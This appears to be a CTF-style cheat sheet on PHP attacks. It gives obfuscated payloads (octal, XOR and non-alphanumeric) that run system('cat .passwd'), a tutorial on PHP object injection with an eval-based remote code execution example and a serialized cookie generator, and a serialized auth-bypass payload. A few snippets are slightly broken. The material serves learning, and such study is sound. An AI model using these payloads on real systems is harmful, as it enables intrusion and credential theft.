 # PHP  vuln

## PHP regex bypass

- With octal encoder https://cryptii.com/pipes/text-octal

		file_get_contents(".passwd") -> "\146\151\154\145\137\147\145\164\137\143\157\156\164\145\156\164\163"("\056\160\141\163\163\167\144")

- xor operation

```python
import string
 
	if __name__ == "__main__":
    		s = string.printable[62:62+32] ##    !"#$%&'()*+,-./:;<=>?@[\]^_\`{|}~
    		s1 = string.printable[:62]     ##    0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
    		for i in s:
        		for j in s:
            			x = chr(ord(i)^ord(j))
            			if x in s1+'_':
                			print '{0}\t{1}\t{2}'.format(i,j,x)
```
	
	$_ = "@" ^ "!" //a
                            	
- Convert to phpnonalpha

	Open https://hackvertor.co.uk/public# and use phpnonalpha encoder

- Unicode encoder

		$_=("#"^"@").('('^'@').('2'^'@');  // 'c' + 'h' + 'r'
 		$__=$_(115).$_(121).$_(115).$_(116).$_(101).$_(109); // here system
		$___=$_(99).$_(97).$_(116)." .".$_(112).$_(97).$_(115).$_(115).$_(119).$_(100); //here cat .passwd
 		$__($___);

## PHP object

Serialization in PHP
To understand PHP object injections, you have to first understand how PHP serialize and deserialize objects.
Serializing
When you need to store a PHP object or transfer it over the network, you use serialize() to pack it up.
serialize(): PHP object -> plain old string that represents the obj
When you need to use that data, use unserialize() to unpack and get the underlying object.
unserialize(): string containing object data -> original object
For example, this code snippet will serialize the object “user”.

```php
<?php
	class User{
		public $username;
		public $status;
	}
	$user = new User;
	$user->username = 'vickie';
	$user->status = 'not admin';
	echo serialize($user);
?>

```
Run the code snippet, and you will get the serialized string that represents the “user” object.
	
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
Serialized string structure
Let’s break this serialized string down! The basic structure of a PHP serialized string is “data type: data”. For example, “b” represents a boolean.
	
	b:THE_BOOLEAN;
“i” represents an integer.
	
	i:THE_INTEGER;
“d” represents a float.
	
	d:THE_FLOAT;
“s” represents a string.
	
	s:LENTH_OF_STRING:"ACTUAL_STRING";
“a” represents an array.
	
	a:NUMBER_OF_ELEMENTS:{ELEMENTS}
And finally, “O” represents an object.
	
	O:LENTH_OF_NAME:"CLASS_NAME":NUMBER_OF_PROPERTIES:{PROPERTIES}
So we can see our serialized string here represents an object of the class “User”. It has two properties. The first property has the name “username” and the value “vickie”. The second property has the name “status” and the value “not admin”.
	
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
Deserializing
When you are ready to operate on the object again, you can deserialize the string with unserialize().

```php
<?php
	class User{
		public $username;
		public $status;
	}
	$user = new User;
	$user->username = 'vickie';
	$user->status = 'not admin';
	$serialized_string = serialize($user);
	$unserialized_data = unserialize($serialized_string);
	var_dump($unserialized_data);
	var_dump($unserialized_data["status"]);
?>
```
	
Unserialize() under the hood
So how does unserialize() work under the hood? And why does it lead to vulnerabilities?
What are PHP magic methods?

PHP magic methods are function names in PHP that have “magical” properties. Learn more about them here.

The magic methods that are relevant for us now are __wakeup() and __destruct(). If the class of the serialized object implements any method named __wakeup() and __destruct(), these methods will be executed automatically when unserialize() is called on an object.

Step 1: Object instantiation
Instantiation is when the program creates an instance of a class in memory. That is what unserialize() does. It takes the serialized string, which specifies the class and the properties of that object. With that data, unserialize() creates a copy of the originally serialized object.
It will then search for a function named __wakeup(), and execute code in that function. __wakeup() reconstructs any resources that the object may have. It is used to reestablish any database connections that have been lost during serialization and perform other reinitialization tasks.

Step 2: Program uses the object
The program operates on the object and uses it to perform other actions.

Step 3: Object destruction
Finally, when no reference to the deserialized object instance exists, __destruct() is called to clean up the object.
Exploiting PHP deserialization
When you control a serialized object that is passed into unserialize(), you control the properties of the created object. You might also be able to hijack the flow of the application by controlling the values passed into automatically executed methods like __wakeup() or __destruct().
This is called a PHP object injection. PHP object injection can lead to variable manipulation, code execution, SQL injection, path traversal, or DoS.
Controlling variable values
One possible way of exploiting a PHP object injection vulnerability is variable manipulation. For example, you can mess with the values encoded in the serialized string.
	
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:9:"not admin";}
In this serialize string, you can try to change the value of “status” to “admin”, and see if the application grants you admin privileges.
	
	O:4:"User":2:{s:8:"username";s:6:"vickie";s:6:"status";s:5:"admin";}
Getting to RCE
It’s even possible to achieve RCE using PHP object injection! For example, consider this vulnerable code snippet: (taken from https://www.owasp.org/index.php/PHP_Object_Injection)

```php
class Example2
	{
	  private $hook;   
	  function __construct(){
	      // some PHP code...
	  }   
	  function __wakeup(){
	      if (isset($this->hook)) eval($this->hook);
	  }
	}
// some PHP code...
	$user_data = unserialize($_COOKIE['data']);
// some PHP code...
```

You can achieve RCE using this deserialization flaw because a user-provided object is passed into unserialize. And the class Example2 has a magic function that runs eval() on user-provided input.
To exploit this RCE, you simply have to set your data cookie to a serialized Example2 object with the hook property set to whatever PHP code you want. You can generate the serialized object using the following code snippet:

```php
class Example2
	{
	   private $hook = "phpinfo();";
	}
```
print urlencode(serialize(new Example2));
// We need to use URL encoding since we are injecting the object via a URL.

Bypass auth :

```php
<?php if($data['password'] == $password){
	$auth=True;
	}
?>
```

If we set the password not to a string but to '1' (True) it will work because str=True is True

	a:2:{s:5:"login";s:10:"superadmin";s:8:"password";b:1;}
	
